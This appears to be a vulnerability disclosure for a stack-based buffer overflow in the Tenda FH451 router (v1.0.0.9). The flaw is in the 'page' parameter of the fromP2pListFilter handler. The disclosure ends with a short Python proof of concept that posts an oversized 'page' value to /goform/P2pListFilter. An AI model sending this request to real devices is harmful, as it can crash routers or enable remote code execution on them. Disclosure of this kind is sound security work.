

# Tenda FH451 fromP2pListFilter
### Overview
vendor: Tenda

product: FH451

version: v1.0.0.9

type: Stack Overflow
### Vulnerability Description
Tenda FH451 v1.0.0.9 were discovered to contain a stack overflow via the page parameter in the fromP2pListFilter function.

### Vulnerability details
In function fromP2pListFilter line 18, it reads in a user-provided parameter `page`. The variable `v11` is passed to the `sprintf` function without any length check, which may overflow the stack-based buffer `s`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.



### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/P2pListFilter"

data = {
    "page": "a" * 1000
}

response = requests.post(url, data=data)
print(response.text)
```